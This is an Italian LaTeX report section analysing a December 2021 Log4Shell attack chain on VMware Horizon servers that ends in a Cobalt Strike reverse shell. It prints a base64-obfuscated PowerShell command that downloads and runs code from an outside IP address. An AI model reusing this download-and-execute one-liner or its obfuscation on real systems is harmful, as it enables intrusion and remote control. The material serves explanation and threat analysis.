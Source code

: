\documentclass[12pt,a4paper]{article}
\begin{document}
\subsection{Orde di bot attaccano gli WMware Horizon server per minare}
Nel dicembre del 2021, dopo la scoperta della falla nella di Log4J Shell (la
quale permetteva di eseguire codice da remoto) è stato rilevato un attacco ai
sistemi VMware Horizon\footnote{Applicazione dekstop che permette di
vitualizzare diverse piattaforme, particolarmente utilizzata nelle organizzioni
che prevedono smart-working}, che utilizzavano questa libreria. L'attacco è
stato fatto sffruttando una particolare risorsa di Log4J: Lightweight Directory
Access Protocol che permetteva di creare una shell web dalla quale ci si poteva
collegare da remoto.\cite{VMware}

\paragraph{Attacco: VMware -> Tomcat -> Cobalt} Gli hacker inziano l'attacco
eseguendo il servizio Tomcat che termina con l'esecuzione dello script
PowerShell, il quale a sua volta esegue una "reverse shell standard" di Cobalt
Strike:

\begin{verbatim}
    powershell.exe -exec bypass -enc 
    aQBlAHgAIAAoACgATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQB
    tAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG
    8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOAA1AC4AMQ
    AxADIALgA4ADMALgAxADEANgA6ADgAMAA4ADAALwBkAHIAdgAnACkAKQA=
\end{verbatim}

Il comando decodifica:

\begin{figure}[ht]
    \centering
    \includegraphics[width=0.95\textwidth]{./images/powershell1.png}
    \caption{Comando su powershell}
    \label{fig:powershell_command1}
\end{figure}

Viene scaricato il file \\
\textit{sha256:6c7182d945e7e7ae8f7c289c9f4655295408cf14b72bab9686cc8dbebe845f4e}
che rappresenta la reverse shell Cobalt Strike.

Questo attacco, però, lasciava diverse tracce.
\end{document}
